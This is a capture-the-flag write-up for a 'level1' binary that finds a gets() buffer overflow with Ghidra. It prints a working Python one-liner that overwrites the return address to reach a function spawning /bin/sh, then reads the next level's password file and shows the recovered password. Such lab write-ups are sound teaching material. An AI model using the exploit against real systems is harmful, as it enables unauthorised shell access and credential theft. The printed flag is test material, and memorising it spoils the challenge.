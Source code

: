 # level1

We found an exec level1 so we run it in ghidra.
inside we found a function main and run.
Run has a system call to (/bin/sh) and main assigns a char variable with 76 bytes and inserts this variable into the function gets().

run starts at address 0x08048444, we want to redirect here after the buffer from gets().

gets() has an exploit because it reads from stdin and ends with a newline. It can be used for a buffer overflow.

    python -c "print 'A' * 76 + '\x44\x84\x04\x08'" | ./level1
    Good... Wait what?
    Segmentation fault (core dumped)

We  use cat, so that the program waits for an input from stdin.

    $ (python -c "print 'A' * 76 + '\x44\x84\x04\x08'" ; cat) | ./level1 
    > Good... Wait what?
    $ cat /home/user/level2/.pass            
    > 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
